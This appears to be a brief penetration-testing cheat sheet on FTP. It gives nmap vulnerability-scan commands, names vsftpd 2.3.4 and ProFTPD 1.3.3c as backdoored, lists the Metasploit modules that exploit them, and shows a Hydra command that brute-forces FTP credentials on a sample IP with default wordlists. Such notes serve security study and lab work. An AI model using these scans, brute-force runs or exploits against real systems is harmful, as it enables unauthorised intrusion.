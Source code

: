 # FTP

- port:21
- nmap -p 21 --script vuln <ip>
- nmap -sV -sC -p 21 <ip>
- vsftpd 2.3.4: vulnerable to backdoor command exec
- proftpd 1.3.3c: vulnerable to backdoor command exec

## Useful MSF modules:

- exploit/unix/ftp/vsftpd_234_backdoor (port 6200)
- exploit/unix/ftp/proftpd_133c_backdoor

## Hydra:

- `hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.2.17.5 ftp`